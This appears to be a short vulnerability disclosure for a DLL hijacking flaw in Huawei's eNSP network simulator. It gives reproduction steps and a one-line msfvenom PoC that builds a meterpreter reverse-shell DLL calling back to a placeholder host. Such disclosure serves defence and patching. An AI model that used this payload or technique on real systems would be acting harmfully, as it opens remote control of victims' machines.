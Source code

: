 DLL: eNSP_SimPC_Plugin.dll
Affected Process: eNSP_Client.exe
Tested on: Windows 10 Pro x64 

Description:
NSP is a scalable and graphical network simulation tool platform provided by Huawei, mainly used for software simulation of enterprise network routers and switches, perfectly presenting real device scenarios and supporting large-scale network simulation, providing users with the opportunity to simulate and learn network technology without real devices.
Huawei eNSP_ There is a security vulnerability in V100R003C00SPC100 version, which is caused by the program loading eNSP from the current working directory_ SimPC_ Plugin.dll file. Attackers can exploit this vulnerability to carry out DLL hijacking attacks.

Steps to reproduce:
1. Prepare a backdoor file called eNSP_ SimPC_ Plugin.dll
2. Replace the original eNSP with the backdoor file_ SimPC_ Plugin.dll
3. Run eNSP, the backdoor is successfully called and executed to go online

PoC Code:
msfvenom -p windows/meterpreter/reverse_tcp lhost=IP lport=PORT -f dll -o eNSP_SimPC_Plugin.dll

Screenshots:
